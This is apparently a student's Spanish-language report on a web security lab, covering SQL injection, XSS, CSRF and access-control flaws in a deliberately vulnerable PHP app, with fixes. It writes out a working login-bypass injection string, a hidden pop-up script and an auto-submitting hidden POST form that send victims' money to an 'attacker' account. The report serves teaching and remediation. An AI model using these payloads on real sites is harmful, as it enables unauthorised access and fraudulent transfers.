




# Proyecto 8-Talent ScoutTech - Informe técnico

**a) Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. A partir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.**

En mi caso he introducido un simple carácter que son las dobles comillas y esto ha provocado el error.


El error provocado es el siguiente:



Vemos que la consulta realizada es:

SELECT userId, password FROM users WHERE username="campo usuario del formulario", el error lo provoccamos al meter comillas dobles ya que hemos cerrado el campo y lo hemos dejado vacío y tras el tenemos otra comilla doble que provoca el error.

| Escribo el valor                                    | "                                                       |
| --------------------------------------------------- | ------------------------------------------------------- |
| En el campo                                         | User                                                    |
| Del formulario de la página                         | http://10.10.10.2/insert_player.php#                    |
| La consulta que ejecuta es                          | SELECT userId, password FROM users WHERE username = """ |
| Los campos del formulario usados en la consulta son | User                                                    |
| Los campos no usados en la consulta son             | Password                                                |

**b) Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):**

La lógica usada aqui es decir que seleccione un usuario cuyo username está vacío O(OR) su contraseña sea alguna de las mencionadas, por lo que:



| Explicación del ataque                             | Sabiendo la consulta que hay detrás vamos a hacer que la consulta sea correcta indicando que o el username existe o la contraseña existe por lo que:<br>El ataque consiste en repetir en el campo usuario: " or password = "contraseña_probada  utilizando en cada interacción una cntraseña diferente del diccionario. |
| -------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Campo de usuario con que el ataque ha tenido exito | " or password = "1234                                                                                                                                                                                                                                                                                                   |
| Campo contraseña con el que el ataque tiene exito  | Vacío                                                                                                                                                                                                                                                                                                                   |

**c) Si vais a private/auth.php, veréis que en la función areUserAndPasswordValid”, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.**


| Explicación del error       | La función usada tiene un problema y es que solo evita las comillas simples, pero no las dobles lo que permite llevar a cabo la inyección.   <br>La razón por la que esta función no escapa las comillas dobles es porque las comillas dobles se utilizan con nombres (equivalentes a las comillas invertidas en MySQL), como en nombres de tablas o columnas, mientras que las comillas simples se utilizan para valores.<br>Referencia: https://www.php.net/manual/en/sqlite3.escapestring.php |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Solución, cambiar la linea: | $query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');                                                                                                                                                                                                                                                                                                                                                                                           |
| Por la linea:               | <br>```php<br>$query = 'SELECT userId, password FROM users WHERE username = ?';<br>$stmt = $db->prepare($query); <br>$stmt->bindValue(1, $user, SQLITE3_TEXT); <br>$result = $stmt->execute(); <br>$row = $result->fetchArray()) <br>```<br><br>https://bohr.wlu.ca/cp363/notes/implementation/bindingValues.php                                                                                                                                                                                 |

**d) Si habéis tenido éxito con el _apartado b),_ os habéis autenticado utilizando elusuario “luis” (si no habéis tenido éxito, podéis utilizar la contraseña “1234” para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora “Candela Pacheco”, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.**

Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre eldirectorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo “add_comment.php~”. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos “.php~” sino que los muestran como archivos de texto sin interpretar.

Esto os permite estudiar el código fuente de “add_comment.php” y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?

| Vulnerabilidad detectada           | La línea <br>```php<br>$query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$_GET['id']."', '".$_COOKIE['userId']."', '$body')";<br><br>```<br><br>Presenta una vulnerabilidad e inyecciones SQL y posible XSS si se muestra el contenido del campo "body" sin saneamiento.                                                                                 |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Descripción del ataque             | Se concatenan directamente los valores de `$_GET['id']`, `$_COOKIE['userId']`, y `$body` en la consulta SQL sin ningún tipo de saneamiento o escapado adecuado. Esto deja la aplicación vulnerable a ataques de inyección SQL.                                                                                                                                            |
| ¿Como podemos asegurar la entrada? | Para asegurarlo:<br>```php<br>$query = "INSERT INTO comments (playerId, userId, body) VALUES (?, ?, ?)";<br><br>$stmt = $db->prepare($query);<br>$stmt->bindParam(1, $_GET['id'], SQLITE3_INTEGER);<br>$stmt->bindParam(2, $_COOKIE['userId'], SQLITE3_INTEGER);<br>$stmt->bindParam(3, $body, SQLITE3_TEXT);<br><br>$stmt->execute() or die("Invalid query");<br><br>``` |
### Parte 2 - XSS

**En vistas de los problemas de seguridad que habéis encontrado, empezáis a sospechar que esta aplicación quizás es vulnerable a XSS (Cross Site Scripting).**

a) Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show_comments.php). Dad un mensaje que genere un «alert»de Javascript al consultar el listado de mensajes.




| Introduzco el mensaje          |                        |
| ------------------------------ | -------------------------------------- |
| En el formulario de la página: | http://10.10.10.2/add_comment.php?id=3 |

**b) Por qué dice "&" cuando miráis un link(como elque aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GETdentro de código html si en realidad el link es sólo con "&" ?**

El carácter `&` se utiliza para separar diferentes parámetros en la URL de una manera que el servidor web pueda interpretar correctamente cada uno de ellos. En este caso, la URL tiene dos parámetros: `amount` y `destination`
- `amount=100`: Este parámetro indica que la cantidad de la donación es de 100. En este contexto, `amount` es el nombre del parámetro y `100` es el valor.
- `destination=ACMEScouting/`: Este parámetro indica que la donación se destinará a "ACMEScouting/"

**c) Explicad cuál es el problema de show_comments.php, y cómo lo arreglaríais. Para resolver este apartado, podéis mirar el código fuente de esta página.****
**
El problema es que el contenido de la base de datos se utiliza sin ningún tipo de saneamiento anterior, permitiendo que la cadena con el script de alerta se ejecute, como vemos en este código con el fallo:

```php
	while ($row = $result->fetchArray()) {
		echo "<div>
                <h4> ". $row['username'] ."</h4> 
                <p>commented: " . $row['body'] . "</p>
              </div>";
```

Para solucionarlo uso la función `htmlspecialchars()` que en PHP  se usa para convertir los caracteres especiales en entidades HTML, lo que evitará que el navegador interprete el texto como código HTML o JavaScript.

Quedando el código así:

```php
while ($row = $result->fetchArray()) {
    echo "<div>
            <h4>" . htmlspecialchars($row['username']) . "</h4> 
            <p>commented: " . htmlspecialchars($row['body']) . "</p>
          </div>";
}
```

**d) Descubrid si hay alguna otra página que esté afectada por esta misma vulnerabilidad. En caso positivo, explicad cómo lo habéis descubierto.**

Si, he encontrado otra buscando entre los posibles formularios que puedo rellenar y he encontrado que al crear jugadores en la url  http://10.10.10.2/insert_player.php, puedo hacer XSS a nivel de código HTML pero no JavaScript:


El resultado:


### Parte 3 - Control de acceso, autenticación y sesiones de usuarios

**a) En el ejercicio 1, hemos visto cómo era inseguro el acceso de los usuarios a la aplicación. En la página de _register.php_ tenemos el registro de usuario. ¿Qué medidas debemos implementar para evitar que el registro sea inseguro? Justifica esas medidas e implementa las medidas que sean factibles en este proyecto.**

Los cambios que propongo para este registro son:

- **Validación de Entrada de Usuario**:
    - Validar y filtrar todos los datos de entrada del usuario para evitar inyecciones SQL y otros ataques. Usando funciones como `filter_input()` o `htmlspecialchars()` para sanitizar la entrada de usuario.
    
- Almacenamiento de contraseñas:
    - En este caso las contraseñas se están almacenando en texto plano en la BD, po lo que propongo que se deberían almacenar hasheadas.

- **Evitar inyecciones SQL:
	- En lugar de concatenar cadenas directamente en la consulta SQL, se deben usar consultas preparadas o funciones que escapen los datos correctamente, como el método `bindValue()` o `bindParam()` evitando así ataques parecidos a los mencionados anteriormente.
    
- **Redireccionar al usuario tras completar el formulario**:
    - Es una buena práctica redireccionar de forma automática al usuario a una de nuestras url.

El resultado sería algo así:
``` php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if (isset($_POST['username']) && isset($_POST['password'])) {
        $username = filter_input(INPUT_POST, 'username', FILTER_SANITIZE_STRING);
        $password = $_POST['password'];

        // Hasheo la contraseña antes de guardarla en la BD
        $hashed_password = password_hash($password, PASSWORD_DEFAULT);
		// Preparamos la query
        $stmt = $db->prepare("SELECT * FROM users WHERE username = ?");
        $stmt->bindValue(1, $username, SQLITE3_TEXT);
        $result = $stmt->execute();

        if ($result && $result->fetchArray()) {
            echo "El nombre de usuario ya está en uso.";
        } else {
            // Preparamos la query para meter al nuevo usuario y lo metemos
            $stmt = $db->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
            $stmt->bindValue(1, $username, SQLITE3_TEXT);
            $stmt->bindValue(2, $hashed_password, SQLITE3_TEXT);
            $stmt->execute();
            header("Location: list_players.php");
            exit;
        }
    }
}
?>
```

**b) En el apartado de login de la aplicación, también deberíamos implantar una serie de medidas para que sea seguro el acceso, (sin contar la del ejercicio 1.c). Como en el ejercicio anterior, justifica esas medidas e implementa las que sean factibles y necesarias (ten en cuenta las acciones realizadas en el register). Puedes mirar en la carpeta _private_.**

En este caso las medidas adicionales a aplicar son:
- **Manejo de Cookies**:
    - Asegúrate de que las cookies que almacenan información sensible, como el nombre de usuario y la contraseña, estén cifradas y sean seguras. En su lugar, utiliza tokens de sesión seguros y evita almacenar información confidencial en cookies.
    
- **Gestión de Sesiones**:
    - Utiliza un sistema de gestión de sesiones seguro para mantener el estado de inicio de sesión del usuario. Puedes usar funciones proporcionadas por PHP para administrar sesiones de manera segura.
    
 - **Mensajes de Error Genéricos**:
    - Evita dar pistas sobre por qué el inicio de sesión falló, ya que esto podría ayudar a los atacantes a identificar posibles vulnerabilidades. En lugar de eso, proporciona un mensaje de error genérico como "Credenciales inválidas".
    
-  **Protección contra Ataques de Fuerza Bruta**:
    - Implementa medidas para evitar ataques de fuerza bruta, como bloquear la cuenta después de varios intentos fallidos de inicio de sesión o implementar un reCAPTCHA para confirmar que el usuario es humano.

```php

<?php
require_once dirname(__FILE__) . '/conf.php';

$userId = FALSE;

# Primero verifico si el usu o la contraseña son validos
function areUserAndPasswordValid($user, $password) {
	global $db, $userId;

	$query = $db->prepare("SELECT userId, password FROM users WHERE username = ?");
	$query->bindValue(1, $user, SQLITE3_TEXT);
	$result = $query->execute();

	$row = $result->fetchArray();

	if ($row && password_verify($password, $row['password'])) {
		$userId = $row['userId'];
		$_SESSION['userId'] = $userId; // Almacenar el ID de usuario en la sesión
		return TRUE;
	} else {
		return FALSE;
	}
}

# Verificar credenciales en el inicio de sesión, redirigir al usuario a una página de inicio de sesión exitosa(en mi caso lo redirijo a index.php)
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['username']) && isset($_POST['password'])) {
	if (areUserAndPasswordValid($_POST['username'], $_POST['password'])) {
		// Redirigir al usuario a una página de inicio de sesión exitosa
		header("Location: index.php");
		exit;
	} else {
		$error = "Credenciales inválidas.";
	}
}
?>

<!-- Formulario de inicio de sesión -->
<form method="post" action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>">
    <label for="username">Nombre de usuario:</label>
    <input type="text" id="username" name="username" required>
    <br>
    <label for="password">Contraseña:</label>
    <input type="password" id="password" name="password" required>
    <br>
    <input type="submit" value="Iniciar Sesión">
</form>

<?php
// Mostrar mensaje de error si hay alguno
if (isset($error)) {
	echo "<p>$error</p>";
}
?>


```

**c) Volvemos a la página de _register.php_, vemos que está accesible para cualquier usuario, registrado o sin registrar. Al ser una aplicación en la cual no debería dejar a los usuarios registrarse, qué medidas podríamos tomar para poder gestionarlo e implementa las medidas que sean factibles en este proyecto.**

Si lo que queremos es restringir el acceso a register.php, podemos usar sistemas de roles, redireccionamientos, un control de acceso basado en la sesión etc. Si establecemos un sistema de roles podriamos hacer lo siguiente:
```php
<?php
// Verificar el estado de inicio de sesión del usuario
session_start();
if (!isset($_SESSION['userId'])) {
    // Si el usuario no está autenticado, redirigirlo a otra página
    header("Location: login.php");
    exit;
}

// Verificar si el usuario tiene permisos de administrador
// Esto depende de cómo estén configurados los roles de usuario en tu aplicación
// Aquí se asume que solo los administradores pueden acceder a la página de registro
// Puedes ajustar esta condición según tu sistema de roles de usuario
if ($_SESSION['userRole'] != 'admin') {
    // Si el usuario no tiene los permisos adecuados, redirigirlo a otra página
    header("Location: unauthorized.php");
    exit;
}

// Resto del código original va debajo
?>
```

**d) Al comienzo de la práctica hemos supuesto que la carpeta _private_ no tenemos acceso, pero realmente al configurar el sistema en nuestro equipo de forma local. ¿Se cumple esta condición? ¿Qué medidas podemos tomar para que esto no suceda?**

Esta condición no se cumple como se ve en la siguiente captura:


Entre las medidas posibles tenemos:

- **Mover la carpeta fuera del directorio raíz del servidor web**:
    - Una de las formas más efectivas de garantizar que los archivos en la carpeta **_private_** no sean accesibles es moverla fuera del directorio raíz del servidor web. De esta manera, los archivos no estarán disponibles para ser solicitados directamente a través del navegador.

- **Configurar reglas de acceso en el servidor web**:
	- Utiliza configuraciones de servidor web, como archivos de configuración .htaccess para Apache o configuraciones de Nginx, para restringir el acceso a la carpeta **_private_**. Puedes negar el acceso desde el navegador web utilizando reglas de acceso adecuadas.
	
Si también queremos que no se muestren los archivos de forma no indexada, podemos crear un archivo "**.htaccess**" con el contenido:
```Options -Indexes```

### Parte 4 - Servidores web

**¿Qué medidas de seguridad se implementarais en el servidor web para reducir el riesgo a ataques?**

- **Firewalls y filtrado de tráfico**:
    - Utiliza firewalls tanto de red como de aplicación para controlar y filtrar el tráfico entrante y saliente hacia el servidor web. Configurar las reglas del firewall para permitir solo el tráfico necesario y bloquear el tráfico no autorizado.
    Un ejemplo de WAF a usar sería [ModSecurity](https://github.com/owasp-modsecurity/ModSecurity) compatible con apache, Nginx e ISS.
    
- **Protección contra ataques DDoS**:
    - Implementar medidas de protección contra ataques de denegación de servicio distribuido (DDoS), como la limitación de velocidad, el filtrado de IP, la distribución de carga y el uso de servicios CDN (Content Delivery Network) para mitigar el impacto de los ataques DDoS. Alguno de estos servicios se podrían implementar a través de [Cloudflare](https://www.cloudflare.com/es-es/ddos/).
    
- **Actualizaciones regulares del software**:
    - Mantener actualizado el software del servidor web, incluyendo el sistema operativo, el servidor web (como Apache, Nginx), el lenguaje de programación (como PHP, Python, Ruby) y cualquier otro software relacionado. Las actualizaciones frecuentes ayudan a parchar vulnerabilidades conocidas.

### Parte 5 - CSRF

**Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: [http://web.pagos/donate.php?amount=100&receiver=attacker,](http://web.pagos/donate.php?amount=100&receiver=attacker) mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).**
**
****a) Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.**


Tras ese XSS quedaría así:


**b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).**

En mi caso yo lo haría inyecctando el siguiente código:

```
<script>window.open("http://web.pagos/donate.php?amount=100&receiver=attacker", "_blank", "height=1, width=1, status=yes, toolbar=no, menubar=no, location=no, addressbar=no, top=1, left=1");</script>
```


El problema es que los navegadores hoy en día bloquean este tipo de comportamiento:


**c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.**
**Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).**

Pues para que esto funcione el usuario que sea víctima del ataque tiene que tener cookies de inicio de sesiín el la página web.pagos, estando registrados, y deberán tener el saldo de 100€ para permitir la donación.


**d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.**

Modificar la página 'donate.php' para recibir los parámetros a través de POST en lugar de GET no sería suficiente para protegerla completamente contra ataques CSRF (Cross-Site Request Forgery). Aunque el cambio a POST dificultaría la explotación de la vulnerabilidad por parte de un atacante, aún existen formas de llevar a cabo ataques CSRF utilizando formularios o peticiones AJAX. En este caso ocultariamos un formulario con los valores pre-cargados y cuando un usuario abra la página se enviará usando un método POST hacia web.pagos, donando así los 100€.

El ataque se podría hacer con un código parecido a este:

```php
<form id="csrf-form" action="http://web.pagos/donate.php" method="POST">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
    <input type="submit" value="Hacer donación">
</form>
<script>
    // Enviamos el formulario automáticamente al cargar la página
    document.getElementById('csrf-form').submit();
</script>

```
